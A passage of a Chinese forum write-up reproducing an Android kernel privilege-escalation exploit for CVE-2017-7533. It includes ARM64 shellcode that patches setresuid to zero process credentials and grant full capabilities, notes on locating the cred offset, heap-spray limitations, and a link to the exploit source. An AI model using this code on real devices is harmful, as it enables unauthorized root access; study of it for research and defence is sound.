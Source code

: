 ```
     
    return 1;
}

```

patch_syscall 我们已经讲过了主要是为了修改 cred 结构体。

```
static patch_syscall(unsigned long mirror_kaddr)
{
    unsigned int *p = (unsigned int *)mirror_kaddr;
    *p = 0xd2822224; p++; //MOV X4, #0x1111
    *p = 0xEB04001F; p++; //CMP X0, X4
    *p = 0x54000261; p++; //BNE _ret
    *p = 0xD2844444; p++; //MOV X4, #0x2222
    *p = 0xEB04003F; p++; //CMP X1, X4
    *p = 0x54000201; p++; //BNE _ret
    *p = 0xD2866664; p++; //MOV X4, #0x3333
    *p = 0xEB04005F; p++; //CMP X2, X4
    *p = 0x540001a1; p++; //BNE _ret
    *p = 0x910003E0; p++; //MOV X0, SP
    *p = 0x9272C401; p++; //AND X1, X0, #0xffffffffffffc000 //获取thread_info
    *p = 0xF9400822; p++; //LDR X2, [X1, #0x10] //获取task_struct
    *p = 0xF942EC43; p++; //LDR X3, [X2, #0x5D8]  //获取cred
    *p = 0x2900FC7F; p++; //STP WZR, WZR, [X3, #4]
    *p = 0x2901FC7F; p++; //STP WZR, WZR, [X3, #0xC]
    *p = 0x2902FC7F; p++; //STP WZR, WZR, [X3, #0x14]
    *p = 0x2903FC7F; p++; //STP WZR, WZR, [X3, #0x1C]
    *p = 0x92800001; p++; //MOV X1, #0xFFFFFFFFFFFFFFFF
    *p = 0xA9028461; p++; //STP X1, X1, [X3, #0x28]
    *p = 0xA9038461; p++; //STP X1, X1, [X3, #0x38]
    *p = 0xF9002461; p++; //STR X1, [X3, #0x48]
    *p = 0xD65F03C0; p++; //RET
}

```

每个系统里面的获取 cred 的偏移可能不同，如何知道呢？可以通过 ida 来确定，比如 cap_bprm_set_creds 的汇编代码就有类似的地方：![](https://bbs.pediy.com/upload/attach/201902/620204_F29J4FH23VZJYQV.jpg)  
注意 patch setresuid 使用的是以 0xffffffc200000000 开始的虚拟地址，可以在用户态访问内核态。test_addr_directly 是为了测试是否可以在用户态访问内核态，如果不可以，程序会 crash。  
最后调用 setresuid 方法，实现提权：![](https://bbs.pediy.com/upload/attach/201902/620204_KU69UDUWW6J34TB.png)  
五、存在的问题1、堆风水没有实现 100% 成功，间隔释放 iov 结构体后，之后开始两个线程开始竞争，以达到溢出的目的。这个竞争过程中会不断从 kmalloc-192 申请和释放内存 (event、old_name、fillhole 都是从 kmalloc-192 分配)。即便占位了 iov 结构体，旁边也可能不是 iov 结构体，如果是内核关键结构，溢出后内核会 crash。ThmosKing 和各位大神，如果有更好的堆风水方案，请指教。2、如果 swapper_pg_dir 就是内核 1 级页表的起始位置包含 000，例如 ffffffc000872000，在 strcpy 时会截断，也是无法利用这个洞的。六、源码[https://github.com/jltxgcy/CVE_2017_7533_EXP](https://github.com/jltxgcy/CVE_2017_7533_EXP)  

### 参考

[1] https://www.blackhat.com/docs/asia-18/asia-18-WANG-KSMA-Breaking-Android-kernel-isolation-and-Rooting-with-ARM-MMU-features.pdf  
[2] https://pacsec.jp/psj17/PSJ2017_DiShen_Pacsec_FINAL.pdf  
[3] https://github.com/hardenedlinux/offensive_poc/tree/master/CVE-2017-7533  
[4][原创](Android Root)CVE-2017-7533 漏洞分析和复现 https://bbs.pediy.com/thread-248481.htm  
[5][分享] KSMA -- Android 通用 Root 技术 https://bbs.pediy.com/thread-248444.htm

[[招聘] 欢迎你加入看雪团队！](https://job.kanxue.com/company-read-31.htm)

最后于 2019-2-13 09:32 被 jltxgcy 编辑 ，原因：